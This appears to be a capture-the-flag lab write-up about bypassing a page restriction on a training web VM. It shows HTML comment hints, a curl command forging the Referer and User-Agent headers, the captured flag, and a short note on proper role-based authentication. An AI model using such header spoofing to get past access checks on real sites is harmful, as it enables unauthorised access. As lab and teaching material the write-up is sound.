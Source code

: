 # MEMBERS PAGE

## Explanations

In the footer, we notice that `© BornToSec` is clickable. After clicking on it, we come on a new page, but nothing useful. Let's check the HTML code...

We finally see some comments inside the HTML, pretty long comment. Let's grab only the useful informations:
```html
<!--
You must cumming from : "https://www.nsa.gov/" to go to the next step
-->
...
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

It seems like if we want to go to the next step, we will need to come from `nsa` website AND use a browser called `ft_bornToSec`.

This is possible by modifying the header of our HTTP call. To do that we will be using `curl` and to fake the website we come from & browser we use, we will modify the `referer` and `user-agent` of the header.
```
curl --referer https://www.nsa.gov/ --user-agent ft_bornToSec http://192.168.56.4/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c
```

Bingo ! We've got a response containing the flag:
```html
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
```

---

## How to avoid that security breach ?

If you want to restrict some pages, the best practice would be to have a normal authentication system, and then let the access of some pages according to the user role.

---

#### Sources

- [user-agent & referer modification in header](https://everything.curl.dev/http/requests#referer)
